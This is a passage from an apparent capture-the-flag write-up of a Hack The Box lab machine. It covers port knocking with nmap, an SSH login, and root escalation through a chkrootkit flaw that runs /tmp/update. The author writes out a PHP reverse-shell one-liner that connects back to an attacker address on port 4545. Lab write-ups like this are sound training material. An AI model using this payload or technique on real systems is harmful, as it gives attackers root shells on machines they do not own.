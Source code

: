     for x in 571 290 911; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 10.10.10.43; done

after the nmap scans is finished through those sequences you are allowed to ssh into the machine with the private key. Now that we have a regular shell as the user `amrois` now we should be able to get the user flag!

![](https://cdn-images-1.medium.com/max/800/1*g4AdKW6nPlGOatOicRU1Sg.gif)


GOT USER FLAG!

Time for privilege escalation, I started browsing through the root directories directories and I found a folder name report, this folder would create a report of chkrootkit every minute when chkrootkit is executed the file ‘`/tmp/update`’ executes with the permissions of user who launched Chkrootkit and Chkrootkit is being executed by root, I created a file named update in /tmp and with the following content…

    php -r ‘$sock=fsockopen(“10.10.x.x”,4545), exec(“/bin/sh -i <&3 >&3 2>&3”);’

Gave it execute permissions and then open a new nc instance on port 4545 after a minute I got a shell as root.

![](https://cdn-images-1.medium.com/max/1000/1*jqNiWH88Edn5XiXkDciG0g.png)

![](https://cdn-images-1.medium.com/max/800/1*CNv4IjYVeBjdOBGvHJV0Ng.gif)


You can follow me on twitter [@0katz](https://www.twitter.com/0katz)

## #TogetherWeHitHarder
